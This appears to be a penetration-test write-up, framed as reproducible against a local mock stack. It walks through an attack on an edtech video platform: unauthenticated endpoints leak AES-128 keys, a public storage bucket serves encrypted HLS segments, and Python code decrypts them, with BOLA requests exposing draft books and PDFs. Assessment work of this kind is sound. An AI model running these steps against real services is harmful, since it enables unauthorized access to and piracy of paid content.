

# ⚔️ End-to-End Attack Simulation & Kill Chain Walkthrough

> **Lab Reproducibility**: Every step in this walkthrough can be executed locally against [`lab/mock_edtech_stack.py`](../lab/mock_edtech_stack.py) using the scripts in [`scripts/`](../scripts/).

---

## 1. Kill Chain Sequence Diagram



---

## 2. Stage-by-Stage Technical Reproduction

### Stage 1: Static Bundle Dissection & Endpoint Extraction
By inspecting the client-side Webpack/Turbopack bundles served by the Next.js frontend, we identified two critical artifacts:
1. **Player Service Bundle (`2tv67cm3-xz1_.js`)**:
   Contained hardcoded service URLs and status-polling routes:
   ```javascript
   const SHAKA_BASE = "https://shaka.media-core.example";
   const R2_PUBLIC   = "https://r2.storage-edge.example";
   async function fetchVideoStatus(videoId) {
     return fetch(`/api/shaka/status/${videoId}`);
   }
   ```
2. **WebCrypto AES-CBC Polyfill Bundle (`3mm1u1j08gl9l.js`)**:
   Revealed how the browser player decrypts segments when `window.crypto.subtle` is invoked by `Hls.js`:
   - Key format: Raw 16-byte buffer decoded from Base64 `encryptionKey`.
   - IV format: 16-byte buffer decoded from the 32-character hex string `encryptionKeyId`.
   - Cipher mode: `AES-128-CBC` with standard PKCS#7 padding.

---

### Stage 2: Exploiting Differential Authorization (`/api/shaka/token` vs. `/api/shaka/status/{id}`)
When an unauthenticated user attempts to request a playback token from the LMS backend, Spring Security properly blocks the request:

```http
GET /api/shaka/token?videoId=07297fe3-7b2b-42cc-86b8-749096b87c34 HTTP/1.1
Host: lms.edtech-target.example
```
```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json

{"error": "Authentication required"}
```

However, calling the sibling status endpoint with the exact same `videoId` bypasses authentication entirely (`PermitAll` in `SecurityFilterChain`) and proxies the full internal metadata record from the Shaka service:

```http
GET /api/shaka/status/07297fe3-7b2b-42cc-86b8-749096b87c34 HTTP/1.1
Host: lms.edtech-target.example
```
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": "07297fe3-7b2b-42cc-86b8-749096b87c34",
  "originalName": "2K9 - DOT 1 - IP01 - GIAI DAP CHUONG 3.mp4",
  "status": "ready",
  "encryptionKey": "FbxOATKDyZC9bSvK6P2CAA==",
  "encryptionKeyId": "6a98f2160204d7b03603c8aa79416ff5"
}
```

---

### Stage 3: Full Catalog Dump via Unauthenticated Upstream Shaka API
Pivoting directly to `shaka.media-core.example` revealed that the microservice had no network-layer ACL (such as Cloudflare Access or mTLS) and no API authentication on its catalog and token endpoints:

```http
GET /api/media HTTP/1.1
Host: shaka.media-core.example
```
- **Response**: `HTTP 200 OK` returning a JSON array of **all 312 video objects**, each containing its UUID `id`, `originalName`, `encryptionKey`, `encryptionKeyId`, and upload timestamp.
- Furthermore, `GET https://shaka.media-core.example/api/auth/token` returned `HTTP 200 OK` with an anonymous `HS256` playback JWT (`{"sub": "playback"}`).

---

### Stage 4: Bypassing Media CDN Gatekeeper via Public Cloudflare R2 Bucket
Normally, the player requests HLS playlists through `media.storage-edge.example/hls/{id}/master.m3u8?token={jwt}`. However, because `r2.storage-edge.example` was configured with public read access, we can fetch both the master playlist, the `1080p` variant playlist, and all `.ts` segments directly without any token:

```http
GET /hls/07297fe3-7b2b-42cc-86b8-749096b87c34/video_1080p.m3u8 HTTP/1.1
Host: r2.storage-edge.example
```
```m3u8
#EXTM3U
#EXT-X-VERSION:3
#EXT-X-TARGETDURATION:4
#EXT-X-MEDIA-SEQUENCE:0
#EXT-X-PLAYLIST-TYPE:VOD
#EXT-X-KEY:METHOD=AES-128,URI="https://shaka.media-core.example/api/keys/07297fe3-7b2b-42cc-86b8-749096b87c34",IV=0x6a98f2160204d7b03603c8aa79416ff5
#EXTINF:4.000000,
parts/w0/seg_1080p_w0_0000.ts
```

---

### Stage 5: In-Memory AES-128-CBC Stream Decryption
Using the leaked `encryptionKey` (`FbxOATKDyZC9bSvK6P2CAA==`) and `encryptionKeyId` (`6a98f2160204d7b03603c8aa79416ff5`), we decrypt any `.ts` segment directly in Python or via a custom `Hls.js` key-interceptor loader in the browser:

```python
import base64
from Crypto.Cipher import AES

raw_key = base64.b64decode("FbxOATKDyZC9bSvK6P2CAA==")          # 16 bytes (128 bits)
iv      = bytes.fromhex("6a98f2160204d7b03603c8aa79416ff5")     # 16 bytes (128 bits)

cipher = AES.new(raw_key, AES.MODE_CBC, iv)
decrypted_ts = cipher.decrypt(encrypted_ts_bytes)

# Remove PKCS#7 padding and verify MPEG-TS sync byte (0x47 == 71)
pad_len = decrypted_ts[-1]
if 1 <= pad_len <= 16:
    decrypted_ts = decrypted_ts[:-pad_len]

assert decrypted_ts[0] == 0x47 and decrypted_ts[188] == 0x47
```

---

### Stage 6: Next.js RSC Flight Stream & Document BOLA Exploitation
To complete the assessment of non-video assets:
1. **RSC Flight Stream Extraction**: Sending `GET /vi/gian-sach/dstln` with header `RSC: 1` exposed 18 unpublished `DRAFT` book entities and sequential migration UUIDs (`a0000000-0000-0000-0000-000000000001`).
2. **Document BOLA**: Querying `GET /api/documents/{docId}/file` streamed all 14 active library PDFs plus 2 historical PDFs that had been replaced by administrators on the public frontend.
